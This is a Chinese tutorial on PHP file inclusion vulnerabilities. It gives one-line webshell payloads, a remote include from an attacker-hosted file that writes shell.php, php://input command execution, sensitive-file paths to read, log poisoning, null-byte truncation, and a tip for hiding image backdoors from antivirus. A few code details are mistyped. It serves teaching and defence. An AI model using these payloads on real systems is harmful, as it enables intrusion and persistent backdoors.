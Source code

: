 ```yaml
---
title: 文件包含
date: 2021-04-20 19:29:44
author: sec
---
```

&emsp;&emsp;程序开发人员通常会把可重复使用的函数写到单个文件中，在使用某些函数时，直接调用此文件，而无需再次编写，这种调用文件的过程一般被称为包含。
&emsp;&emsp;程序开发人员都希望代码能够更灵活，所以通常会将包含的文件设置为变量，用来进行动态调用，但正是这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞
&emsp;&emsp;几乎在所有的脚本语言中都会提供文件包含的功能，但文件包含漏洞在PHP Web Application中居多，而在JSP，ASP，ASP.NET中却非常少，甚至没有包含漏洞的存在，这与程序开发人员的水平无关，而在于语言设计的弊端。
# 包含漏洞原理解析
&emsp;&emsp;大多数Web语言都可以使用文件包含操作，其中PHP语言提供的文件包含功能太强大，太灵活，所以包含漏洞经常出现在PHP语言中。但是其他语言也有包含漏洞。

## PHP包含
&emsp;&emsp;PHP中提供了四个文件包含的函数，分别是include()，include_once()，require()和require_once()。这四个函数都可以进行文件包含，作用不一样，区别如下：
- require 找不到被包含的文件会产生致命的错误，并停止脚本。
- include 找不到被包含的文件时只会产生警告，脚本将会继续执行。
- include_once 此语句与include()相似，唯一区别是如果改文件的代码已经被包含，则不会再次被包含。
- include_once 此语句与require()相似，唯一区别是如果改文件的代码已经被包含，则不会再次被包含。

### 文件包含示例：
PHP文件包含分为本地包含和远程包含
（1）本地包含
	ArrayUtil.php文件提供了字符串操作函数，代码如下：
```php
<?php
	function PrintArr ($arr,$sp="-->",$lin="<br/>"){
		echo "$key $sp $value $lin";
	}
	···
	···
?>
```
Index.php对ArrayUtil.php进行包含，并使用PrintArr函数，代码如下
```php
<?php
	include("ArrayUtil.php");	//包含ArrayUtil.php
	$arr = array("张三"，"李四","王五");
	PrintArr($arr,"==>");		//使用ArrayUtil.php的PrintArr函数
?>
```
Index.php文件执行结果为
```php
0 ==> 张三
1 ==> 李四
2 ==> 王五
```
phpinfo.txt是一个正常的文本文件内容为
```php
<?php
	phpinfo();
?>
```
在Index.php文件中包含phpinfo.txt，代码如下：
```php
<?php
include("phpinfo.txt");
?>
```
浏览INdex.php时会执行phpinfo()函数。
下面将phpinfo.txt文件扩展名改为jpg，rar，xxx，doc进行测试都可以显示phpinfo信息。由此可见，只要文件内容符合hp语法规范，那么任何扩展名都可以被php解析。
如果包含非PHP语法规范源文件时，将会暴露其源码。
（2）远程包含
&emsp;&emsp;PHP不仅可以对本地文件进行包含，还可以对远程文件进行包含。如果使用远程包含功能，首先需要确定PHP是否开启远程包含功能（默认关闭）。开启功能需要在php.ini进行修改将allow_url_include选项改为On
远程包含例子：
http://xxx.com/根目录下存在php.txt代码如下：
```php
<?php
	echo "Hello World";
?>
```
http://www.xxx.com/Index.php代码如下：
```php
<?php
	include($_GER['page']);
?>
```
访问http;//www.xxx.com/index.php?page=https://xxx.com/php.txt

### PHP文件包含利用
（1）读取敏感文件
访问URL=http;//xxx.com/index.php?page=/etc/passwd如果目标主机文件存在并且有相应权限，那么就可以独处文件的内容。反之，就会得到一个警告。
常见的敏感信息路径如下：
Windows系统
- C:\bott.ini			//查看系统版本
- C:\windows\system32\inetsrv\MetaBase.xml			//IIS配置文件
- C:\windows\repair\sam		//存储Windows系统初次安装的密码
- C:\Program File\mysql\my.ini		//mysql配置信息
- C:\Program File\mysql\data\mysql\suer.MYD	//Mysql root
- C:\windows\php.ini		//php配置信息
- C:\winodws\my.ini			//Mysql配置文件

UNIX/Linux系统。
- /etc/pass			
- /userlocal/app/apache2/conf/httpd.conf	//apache2默认配置文件
- /userlocal/app/apache2/conf/extra/httpd-vhosts.conf	//虚拟网站配置
- /usr/local/app/php5/lib/php.ini	//PHP相关设置
- /etc/http/conf/httpd.conf	//apache配置文件
- /etc/my.cnf	//Mysql配置文件
（2）远程包含Shell
如果目标主机allow_url_fopen是激活的就可以尝试远程包含一句话木马
在自己网站http://my.com下挂一个echo.txt内容为
```php
<?fputs(fopen("shell.php","w"),"<?php eval($_POST['pass']);?>")?>
```
访问目标网站http://xxx.index?page=http://my.com/echo.txt就会在目标网站index.php所在目录下生产shell.php
（3）本地包含配合文件上传
很多网站通常会提供文件上传功能，比如：上传头像，文档等。假设已经上传了一句话图片木马到服务器，路径为/upload/1.jpg
图片代码如下：
```php
<?fputs(fopen("shell.php","w"),"<?php eval($_POST['password']);?>")?>
```
访问这个目录则会生成shell.php
（4）使用PHP封装协议
PHP带有很多内置URL风格的封装协议，这类协议与fopen()，copy()，file_exists()，filesize()等文件系统函数提供的功能类似常见协议如下：
名称|含义
--|--
file://|访问本地文件系统
http://|访问HTTP(s)网址
ftp://|访问FTP(s)URLs
php://|访问输入/输出流(I/O streams)
zlib://|压缩流
data://|数据
ssh2://|Secure shell 2
expect://|处理交互式的流
glob://|查找匹配的文件路径

1. 使用封装协议读取PHP文件
http://XXX.com/index.php?page=php://filter/read=convert.base-endcode/resource=config.php
访问URL可以读取Base64加密后的字符串
2. 写入PHP文件
使用php://input 可以执行php语句，但使用这条语句时需要注意php://input 受限于allow_url_include选项。
http://XXX.com/index.php?page=php://input并提交数据为
```php
<?php system('net user');?>
```
如果提交
```php
<?fputs(fopen("shell.php","w"),"<?php eval($_POST['password']);?>")?>
```
就会生成shell.php

(5) 包含Apache日志文件
&emsp;&emsp;谋个PHP文件存在本地包含漏洞导致无法上传文件，这种情况就像明明有SQL注入漏洞但是无法注入出数据一样。但本地包含还有一招，那就是找到Apache路径，利用包含漏洞包含Apache日志文件可以获得Webshell
&emsp;&emsp;Apache运行后一般默认会生成俩日记文件，这俩文件是access.log(访问日志)和error.log(错误日志)，Apache的访问日志文件记录了客户端的每次请求及服务器响应的相关信息，。
&emsp;&emsp;从文件内容可以看出每一行访问记录包含7个部分：
- 客户端地址
- 访问者标识：一般为空用—代替
- 访问者验证名字一般情况下为空白
- 请求时间
- 请求类型（GET，POST）
- 响应HTTP状态码
- 发送给服务器的字节数
&emsp;&emsp;当访问一个不存在的资源Apache也会记录，如果存在本地包含漏洞，缺没有可以包含的文件时（通常指网页木马文件），就可以去访问url:http://XXX.com/<?php phpinfo();?>。Apache会记录请求<?php phpinfo();?>并写入到access.log文件中。这时候再去包含Apache的日志文件。实际是不行的。访问URL后"<, > 空格"都被浏览器转码了，这样攻击者就无法正常利用Apache包含漏洞。一般来说"脚本小子"就无法深入了，但是攻击者可以利用Burp来绕过编码，

(6) 截断包含
&emsp;&emsp; 很多人认为包含漏洞很好修复，固定扩展名。当进行包含时不传输扩展名只输入文件名。例如要传输News.php时。只需要将参数page设为New就可以。这样就可以变相当修复包含漏洞，
&emsp;&emsp; 要想突破这个代码可以用%00截断将page参数设为1.jpg%00就可以让后边固定当扩展名失效。
(7)绕过WAF防火墙
&emsp;&emsp; 文件包含有时候会被用来制作后门。如：
创建一个图片，图片为一句话木马，让一个php包含这个图片，一般当杀毒软件是查不出来的。
### JSP包含
1. 静态包含
文件包含漏洞最主要当时可以控制被包含当文件，但是JSP语法规定，include指令为静态包含，只允许包含一个已经存在服务器的文件。这就意味着include指令将不存在文件包含漏洞。
2. 动态包含

